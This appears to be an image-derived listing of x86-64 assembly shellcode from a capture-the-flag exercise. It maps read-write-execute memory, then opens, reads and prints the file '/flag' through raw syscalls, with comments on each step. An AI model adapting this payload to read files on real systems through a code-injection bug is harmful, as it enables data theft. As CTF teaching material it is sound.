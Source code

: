 ```nasm
  xor rdi, rdi
  mov rsi, 4096
  mov rdx, 7
  mov r10, 0x22
  mov r8, rdi
  mov r9, rdi
  push 9
  pop rax
  syscall
  push rax

  ; openat is syscall 257
  ; int fd = openat(dirfd=0,
  ;                 path="/flag",
  ;                 flags=0);       // O_RDONLY
  mov rdi, 0x00000067616c662f
  push rdi
  mov rsi, rsp
  xor rdi, rdi
  xor rdx, rdx
  push 257
  pop rax
  syscall

  ; at this point, stack has:
  ; buf address
  ; "/flag"

  ; read is syscall 0
  ; int n = read(fd, buf, 4096);
  mov rdi, rax
  pop rsi
  pop rsi
  push rsi
  mov rdx, 4096
  push 0
  pop rax
  syscall

  ; at this point, stack has:
  ; buf address

  ; write is syscall 1
  ; write(1, buf, n);
  mov rdi, 1
  pop rsi
  mov rdx, rax
  push 1
  pop rax
  syscall
```
